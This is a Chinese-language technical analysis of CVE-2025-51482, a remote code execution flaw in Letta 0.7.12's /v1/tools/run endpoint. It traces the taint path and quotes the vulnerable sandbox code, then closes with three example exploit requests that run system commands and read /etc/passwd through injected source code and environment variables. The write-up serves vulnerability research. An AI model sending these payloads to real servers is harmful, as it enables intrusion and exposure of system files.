

# 基于自动化工具分析-CVE-2025-51482-先知社区

> **来源**: https://xz.aliyun.com/news/19239  
> **文章ID**: 19239

---

# 漏洞通告

在浏览cve的时候发现CVE-2025-51482的漏洞描述直接告诉了我们sink点信息



> letta-ai Letta 0.7.12 中的 letta.server.rest\_api.routers.v1.tools.run\_tool\_from\_source 存在远程代码执行漏洞，允许远程攻击者通过精心构造的有效载荷向 /v1/tools/run 端点执行任意 Python 代码和系统命令，从而绕过预期的沙箱限制。

# 自动分析

使用semgrep自动分析调用链

```
    letta/services/tool_executor/tool_execution_sandbox.py
    ❯❱ untitled_rule
          Semgrep found a match
                               
           96┆ result = self.run_local_dir_sandbox(agent_state=agent_state,
               additional_env_vars=additional_env_vars)                    
    
    
          Taint comes from:
    
           letta/server/rest_api/routers/v1/tools.py
    
          210┆ @router.post("/run", response_model=ToolReturnMessage,
               operation_id="run_tool_from_source")                  
    
          211┆ def run_tool_from_source(
    
          212┆     server: SyncServer = Depends(get_letta_server),
    
          213┆     request: ToolRunFromSource = Body(...),
    
          214┆     actor_id: Optional[str] = Header(None, alias="user_id"),  # Extract user_id from
               header, default to None if not present                                              
    
          215┆ ):
    
          216┆     """
    
          217┆     Attempt to build a tool from source, then run it on the provided arguments
    
          218┆     """
    
          219┆     actor = server.user_manager.get_user_or_default(user_id=actor_id)
    
             [hid 25 additional lines, adjust with --max-lines-per-finding] 
    
    
                This is how taint reaches the sink:
    
           letta/server/rest_api/routers/v1/tools.py
    
          222┆ return server.run_tool_from_source(
    
          Taint flows through these intermediate variables:
    
           letta/server/server.py
    
          1414┆ tool_env_vars: Optional[Dict[str, str]] = None,
    
          then call to:
    
           letta/server/server.py
    
          1442┆ tool_execution_result = ToolExecutionSandbox(tool.name, tool_args, actor,
               tool_object=tool).run(                                                    
    
          Taint flows through these intermediate variables:
    
           79┆ additional_env_vars: Optional[Dict] = None,
    
          then reaches:
    
           96┆ result = self.run_local_dir_sandbox(agent_state=agent_state,
               additional_env_vars=additional_env_vars)   
```

## 污染源（Source）

* **位置**: `letta/server/rest_api/routers/v1/tools.py:214`
* **代码**: `actor_id: Optional[str] = Header(None, alias="user_id")`
* **说明**: 从HTTP头中获取的`user_id`是**不可信的用户输入**

## 传播路径

```
user_id (HTTP头) 
→ actor = server.user_manager.get_user_or_default(user_id=actor_id)
→ server.run_tool_from_source(...)
→ ToolExecutionSandbox(...).run(...)
→ additional_env_vars
```

## 污染汇点（Sink）

* **位置**: `letta/services/tool_executor/tool_execution_sandbox.py:96`
* **代码**: `self.run_local_dir_sandbox(agent_state=agent_state, additional_env_vars=additional_env_vars)`
* **说明**: 最终到达命令执行环境变量

# 代码分析

既然知道了路径，那么就正向分析一下，首先看一下`tools.py` 214行

post请求，请求路由是`/run`，主要关注`actor_id`

```
@router.post("/run", response_model=ToolReturnMessage, operation_id="run_tool_from_source")
def run_tool_from_source(
    server: SyncServer = Depends(get_letta_server),
    request: ToolRunFromSource = Body(...),
    actor_id: Optional[str] = Header(None, alias="user_id"),  # Extract user_id from header, default to None if not present
):
    """
    Attempt to build a tool from source, then run it on the provided arguments
    """
    actor = server.user_manager.get_user_or_default(user_id=actor_id)
```

`actor_id`传入`get_user_or_default`函数里，进入`get_user_or_default`函数观察

这段代码也比较简单，所以只需要关注user\_id就可以

```
    @enforce_types
    def get_user_or_default(self, user_id: Optional[str] = None):
        """Fetch the user or default user."""
        if not user_id:
            return self.get_default_user()

        try:
            return self.get_user_by_id(user_id=user_id)
        except NoResultFound:
            return self.get_default_user()
```

`get_user_or_default`函数会尝试通过`user_id`获取用户，如果用户不存在则返回默认用户。这里返回的`actor`对象会被传递给后续的处理流程。

### `server.run_tool_from_source`函数分析

继续跟踪调用链，看看`actor`是如何被使用的：

```
@router.post("/run", response_model=ToolReturnMessage, operation_id="run_tool_from_source")
def run_tool_from_source(
    server: SyncServer = Depends(get_letta_server),
    request: ToolRunFromSource = Body(...),
    actor_id: Optional[str] = Header(None, alias="user_id"),  # Extract user_id from header, default to None if not present
):
    """
    Attempt to build a tool from source, then run it on the provided arguments
    """
    actor = server.user_manager.get_user_or_default(user_id=actor_id)

    try:
        return server.run_tool_from_source(
            tool_source=request.source_code,
            tool_source_type=request.source_type,
            tool_args=request.args,
            tool_env_vars=request.env_vars,
            tool_name=request.name,
            tool_args_json_schema=request.args_json_schema,
            tool_json_schema=request.json_schema,
            actor=actor,
        )
```

**关键发现**：这里有一个非常重要的参数 `request.env_vars`，它直接来自于HTTP请求体，会被传递到 `tool_env_vars` 参数中。

查看 `ToolRunFromSource` 的定义：

```
class ToolRunFromSource(LettaBase):
    source_code: str = Field(..., description="The source code of the function.")
    args: Dict[str, Any] = Field(..., description="The arguments to pass to the tool.")
    env_vars: Dict[str, str] = Field(None, description="The environment variables to pass to the tool.")
    name: Optional[str] = Field(None, description="The name of the tool to run.")
    source_type: Optional[str] = Field(None, description="The type of the source code.")
    args_json_schema: Optional[Dict] = Field(None, description="The args JSON schema of the function.")
    json_schema: Optional[Dict] = Field(
        None, description="The JSON schema of the function (auto-generated from source_code if not provided)"
    )
```

**漏洞点1**：`request.source_code` - 用户可以完全控制要执行的Python源代码**漏洞点2**：`request.env_vars` - 用户可以控制注入到执行环境中的环境变量

继续查看 `server.run_tool_from_source` 的实现：

```
    def run_tool_from_source(
        self,
        actor: User,
        tool_args: Dict[str, str],
        tool_source: str,
        tool_env_vars: Optional[Dict[str, str]] = None,
        tool_source_type: Optional[str] = None,
        tool_name: Optional[str] = None,
        tool_args_json_schema: Optional[Dict[str, Any]] = None,
        tool_json_schema: Optional[Dict[str, Any]] = None,
    ) -> ToolReturnMessage:
        """Run a tool from source code"""
        if tool_source_type is not None and tool_source_type != "python":
            raise ValueError("Only Python source code is supported at this time")

        # If tools_json_schema is explicitly passed in, override it on the created Tool object
        if tool_json_schema:
            tool = Tool(name=tool_name, source_code=tool_source, json_schema=tool_json_schema)
        else:
            # NOTE: we're creating a floating Tool object and NOT persisting to DB
            tool = Tool(
                name=tool_name,
                source_code=tool_source,
                args_json_schema=tool_args_json_schema,
            )

        assert tool.name is not None, "Failed to create tool object"

        # TODO eventually allow using agent state in tools
        agent_state = None

        # Next, attempt to run the tool with the sandbox
        try:
            tool_execution_result = ToolExecutionSandbox(tool.name, tool_args, actor, tool_object=tool).run(
                agent_state=agent_state, additional_env_vars=tool_env_vars
            )
```

这里可以看到：

1. `tool_source`（用户提供的源代码）被直接用于创建 `Tool` 对象
2. `tool_env_vars`（用户提供的环境变量）被直接传递给 `ToolExecutionSandbox.run()` 的 `additional_env_vars` 参数

### `ToolExecutionSandbox.run` 函数分析

查看 `ToolExecutionSandbox.run` 方法：

```
    def run(
        self,
        agent_state: Optional[AgentState] = None,
        additional_env_vars: Optional[Dict] = None,
    ) -> ToolExecutionResult:
        """
        Run the tool in a sandbox environment.

        Args:
            agent_state (Optional[AgentState]): The state of the agent invoking the tool
            additional_env_vars (Optional[Dict]): Environment variables to inject into the sandbox

        Returns:
            ToolExecutionResult: Object containing tool execution outcome (e.g. status, response)
        """
        if tool_settings.e2b_api_key and not self.privileged_tools:
            logger.debug(f"Using e2b sandbox to execute {self.tool_name}")
            result = self.run_e2b_sandbox(agent_state=agent_state, additional_env_vars=additional_env_vars)
        else:
            logger.debug(f"Using local sandbox to execute {self.tool_name}")
            result = self.run_local_dir_sandbox(agent_state=agent_state, additional_env_vars=additional_env_vars)
```

根据配置，工具会在本地沙箱或e2b沙箱中执行。我们重点关注本地沙箱的执行路径。

### `run_local_dir_sandbox` 函数分析

这是最关键的函数，让我们详细分析：

```
    @trace_method
    def run_local_dir_sandbox(
        self, agent_state: Optional[AgentState] = None, additional_env_vars: Optional[Dict] = None
    ) -> ToolExecutionResult:
        sbx_config = self.sandbox_config_manager.get_or_create_default_sandbox_config(sandbox_type=SandboxType.LOCAL, actor=self.user)
        local_configs = sbx_config.get_local_config()

        # Get environment variables for the sandbox
        env = os.environ.copy()
        env_vars = self.sandbox_config_manager.get_sandbox_env_vars_as_dict(sandbox_config_id=sbx_config.id, actor=self.user, limit=100)
        env.update(env_vars)

        # Get environment variables for this agent specifically
        if agent_state:
            env.update(agent_state.get_agent_env_vars_as_dict())

        # Finally, get any that are passed explicitly into the `run` function call
        if additional_env_vars:
            env.update(additional_env_vars)

        # Safety checks
        if not os.path.exists(local_configs.sandbox_dir) or not os.path.isdir(local_configs.sandbox_dir):
            logger.warning(f"Sandbox directory does not exist, creating: {local_configs.sandbox_dir}")
            os.makedirs(local_configs.sandbox_dir)

        # Write the code to a temp file in the sandbox_dir
        with tempfile.NamedTemporaryFile(mode="w", dir=local_configs.sandbox_dir, suffix=".py", delete=False) as temp_file:
            if local_configs.use_venv:
                # If using venv, we need to wrap with special string markers to separate out the output and the stdout (since it is all in stdout)
                code = self.generate_execution_script(agent_state=agent_state, wrap_print_with_markers=True)
            else:
                code = self.generate_execution_script(agent_state=agent_state)

            temp_file.write(code)
            temp_file.flush()
            temp_file_path = temp_file.name
        try:
            if local_configs.use_venv:
                return self.run_local_dir_sandbox_venv(sbx_config, env, temp_file_path)
            else:
                return self.run_local_dir_sandbox_directly(sbx_config, env, temp_file_path)
```

**关键漏洞点**：

1. **第283-284行**：`additional_env_vars`（用户可控）直接被合并到 `env` 字典中，没有任何验证或过滤
2. **第292-301行**：用户提供的 `source_code` 通过 `generate_execution_script()` 处理后写入临时文件
3. **第303-306行**：使用 `env` 字典（包含用户可控的环境变量）执行Python代码

### 代码执行路径分析

查看两种执行方式：

#### 方式1：使用venv执行（`run_local_dir_sandbox_venv`）

```
    @trace_method
    def run_local_dir_sandbox_venv(
        self,
        sbx_config: SandboxConfig,
        env: Dict[str, str],
        temp_file_path: str,
    ) -> ToolExecutionResult:
        local_configs = sbx_config.get_local_config()
        sandbox_dir = os.path.expanduser(local_configs.sandbox_dir)  # Expand tilde
        venv_path = os.path.join(sandbox_dir, local_configs.venv_name)

        # Recreate venv if required
        if self.force_recreate_venv or not os.path.isdir(venv_path):
            logger.warning(f"Virtual environment directory does not exist at: {venv_path}, creating one now...")
            log_event(name="start create_venv_for_local_sandbox", attributes={"venv_path": venv_path})
            create_venv_for_local_sandbox(
                sandbox_dir_path=sandbox_dir, venv_path=venv_path, env=env, force_recreate=self.force_recreate_venv
            )
            log_event(name="finish create_venv_for_local_sandbox")

        log_event(name="start install_pip_requirements_for_sandbox", attributes={"local_configs": local_configs.model_dump_json()})
        install_pip_requirements_for_sandbox(local_configs, env=env)
        log_event(name="finish install_pip_requirements_for_sandbox", attributes={"local_configs": local_configs.model_dump_json()})

        # Ensure Python executable exists
        python_executable = find_python_executable(local_configs)
        if not os.path.isfile(python_executable):
            raise FileNotFoundError(f"Python executable not found in virtual environment: {python_executable}")

        # Set up environment variables
        env["VIRTUAL_ENV"] = venv_path
        env["PATH"] = os.path.join(venv_path, "bin") + ":" + env["PATH"]
        env["PYTHONWARNINGS"] = "ignore"

        # Execute the code
        try:
            log_event(name="start subprocess")
            result = subprocess.run(
                [python_executable, temp_file_path], env=env, cwd=sandbox_dir, timeout=60, capture_output=True, text=True, check=True
            )
```

**第359行**：使用 `subprocess.run()` 执行Python脚本，`env` 参数直接包含了用户可控的环境变量。

#### 方式2：直接执行（`run_local_dir_sandbox_directly`）

```
    @trace_method
    def run_local_dir_sandbox_directly(
        self,
        sbx_config: SandboxConfig,
        env: Dict[str, str],
        temp_file_path: str,
    ) -> ToolExecutionResult:
        status = "success"
        func_return, agent_state, stderr = None, None, None

        old_stdout = sys.stdout
        old_stderr = sys.stderr
        captured_stdout, captured_stderr = io.StringIO(), io.StringIO()

        sys.stdout = captured_stdout
        sys.stderr = captured_stderr

        try:
            with self.temporary_env_vars(env):

                # Read and compile the Python script
                with open(temp_file_path, "r", encoding="utf-8") as f:
                    source = f.read()
                code_obj = compile(source, temp_file_path, "exec")

                # Provide a dict for globals.
                globals_dict = dict(env)  # or {}
                # If you need to mimic `__main__` behavior:
                globals_dict["__name__"] = "__main__"
                globals_dict["__file__"] = temp_file_path

                # Execute the compiled code
                log_event(name="start exec", attributes={"temp_file_path": temp_file_path})
                exec(code_obj, globals_dict)
```

**第387行**：使用 `self.temporary_env_vars(env)` 临时设置环境变量**第395行**：`globals_dict = dict(env)` - **严重问题**：直接将环境变量字典作为全局命名空间的一部分**第402行**：使用 `exec()` 执行用户提供的代码

### `generate_execution_script` 函数分析

这个函数负责生成执行脚本，让我们看看用户代码是如何被嵌入的：

```
    def generate_execution_script(self, agent_state: AgentState, wrap_print_with_markers: bool = False) -> str:
        """
        Generate code to run inside of execution sandbox.
        Passes into a serialized agent state into the code, to be accessed by the tool.

        Args:
            agent_state (AgentState): The agent state
            wrap_print_with_markers (bool): If true, we wrap the final statement with a `print` and wrap with special markers

        Returns:
            code (str): The generated code strong
        """
        if "agent_state" in self.parse_function_arguments(self.tool.source_code, self.tool.name):
            inject_agent_state = True
        else:
            inject_agent_state = False

        # dump JSON representation of agent state to re-load
        code = "from typing import *
"
        code += "import pickle
"
        code += "import sys
"
        code += "import base64
"

        # imports to support agent state
        if inject_agent_state:
            code += "import letta
"
            code += "from letta import * 
"
            import pickle

        if self.tool.args_json_schema:
            schema_code = add_imports_and_pydantic_schemas_for_args(self.tool.args_json_schema)
            if "from __future__ import annotations" in schema_code:
                schema_code = schema_code.replace("from __future__ import annotations", "").lstrip()
                code = "from __future__ import annotations

" + code
            code += schema_code + "
"

        # load the agent state
        if inject_agent_state:
            agent_state_pickle = pickle.dumps(agent_state)
            code += f"agent_state = pickle.loads({agent_state_pickle})
"
        else:
            # agent state is None
            code += "agent_state = None
"

        if self.tool.args_json_schema:
            args_schema = generate_model_from_args_json_schema(self.tool.args_json_schema)
            code += f"args_object = {args_schema.__name__}(**{self.args})
"
            for param in self.args:
                code += f"{param} = args_object.{param}
"
        else:
            for param in self.args:
                code += self.initialize_param(param, self.args[param])

        code += "
" + self.tool.source_code + "
"

        # TODO: handle wrapped print

        code += (
            self.LOCAL_SANDBOX_RESULT_VAR_NAME
            + ' = {"results": '
            + self.invoke_function_call(inject_agent_state=inject_agent_state)
            + ', "agent_state": agent_state}
'
        )
        code += (
            f"{self.LOCAL_SANDBOX_RESULT_VAR_NAME} = base64.b64encode(pickle.dumps({self.LOCAL_SANDBOX_RESULT_VAR_NAME})).decode('utf-8')
"
        )

        if wrap_print_with_markers:
            code += f"sys.stdout.write('{self.LOCAL_SANDBOX_RESULT_START_MARKER}')
"
            code += f"sys.stdout.write(str({self.LOCAL_SANDBOX_RESULT_VAR_NAME}))
"
            code += f"sys.stdout.write('{self.LOCAL_SANDBOX_RESULT_END_MARKER}')
"
        else:
            code += f"{self.LOCAL_SANDBOX_RESULT_VAR_NAME}
"

        return code
```

**第467行**：`code += "\
" + self.tool.source_code + "\
"` - 用户提供的源代码被直接拼接到生成的执行脚本中，**没有任何过滤或验证**！

## 漏洞总结

### 漏洞类型

**远程代码执行（Remote Code Execution, RCE）** - CWE-94: Improper Control of Generation of Code ('Code Injection')

### 漏洞原因

1. **缺少输入验证**：`request.source_code` 和 `request.env_vars` 直接来自用户输入，没有任何安全验证
2. **沙箱绕过**：虽然代码声称在"沙箱"中执行，但实际上：

* 用户代码被直接执行，没有任何限制
* 环境变量可以任意设置，可能影响执行环境
* 在直接执行模式下，`globals_dict = dict(env)` 会将环境变量直接注入到全局命名空间

1. **权限控制不足**：虽然有 `actor` 参数用于权限检查，但在这个端点中，权限检查并不足以防止代码执行

### 攻击向量

攻击者可以通过以下方式利用漏洞：

1. **直接代码注入**：通过 `source_code` 字段提供恶意Python代码
2. **环境变量注入**：通过 `env_vars` 字段设置危险的环境变量（如 `PYTHONPATH`、`LD_PRELOAD` 等）
3. **组合攻击**：结合使用代码注入和环境变量注入来绕过可能的限制

### 漏洞影响

* **CVSS 3.1 评分**：8.8 (HIGH)
* **影响范围**：可以执行任意Python代码和系统命令
* **影响版本**：Letta 0.7.12

## 漏洞利用示例

### 示例1：直接执行系统命令

攻击者可以通过构造恶意的 `source_code` 来执行任意系统命令：

```
POST /v1/tools/run
Content-Type: application/json
user_id: attacker_id

{
  "source_code": "import os
def malicious_function():
    os.system('id')
    return 'exploited'",
  "name": "malicious_tool",
  "args": {},
  "env_vars": {}
}
```

### 示例2：通过环境变量注入

在某些情况下，攻击者可以通过环境变量来影响代码执行：

```
{
  "source_code": "import os
def test():
    print(os.environ.get('MALICIOUS_VAR'))
    return 'ok'",
  "name": "test",
  "args": {},
  "env_vars": {
    "MALICIOUS_VAR": "injected_value",
    "PYTHONPATH": "/malicious/path"
  }
}
```

### 示例3：结合使用

最危险的攻击方式是结合代码注入和环境变量注入：

```
{
  "source_code": "import os, subprocess
def exploit():
    cmd = os.environ.get('CMD', 'whoami')
    result = subprocess.check_output(cmd, shell=True)
    return result.decode()
",
  "name": "exploit",
  "args": {},
  "env_vars": {
    "CMD": "cat /etc/passwd"
  }
}
```

## 总结

CVE-2025-51482 代码注入漏洞，主要原因是：

1. **信任用户输入**：系统直接信任并执行用户提供的Python代码
2. **沙箱机制薄弱**：虽然有"沙箱"的概念，但实际上没有真正的隔离机制
3. **缺少输入验证**：对用户输入没有进行任何安全验证
